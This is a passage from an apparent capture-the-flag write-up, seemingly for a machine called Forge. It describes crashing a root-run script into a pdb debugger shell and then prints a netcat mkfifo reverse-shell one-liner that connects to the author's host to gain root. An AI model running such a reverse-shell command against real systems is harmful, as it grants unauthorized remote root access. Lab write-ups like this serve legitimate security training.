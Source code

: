 the other ssh session to interact with the port listening :

![image](/assets/images/Forge/forge_11.png)

raised the error by typing `id ` while it expects a number and get the pdb shell we can now get a reverse shell :

```bash
(/assets/images/Forge/Pdb) import os
(/assets/images/Forge/Pdb) os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my_ip> 9999 >/tmp/f")
```

![image](/assets/images/Forge/forge_14.png)

gain root reverse shell :

![image](/assets/images/Forge/forge_15.png)
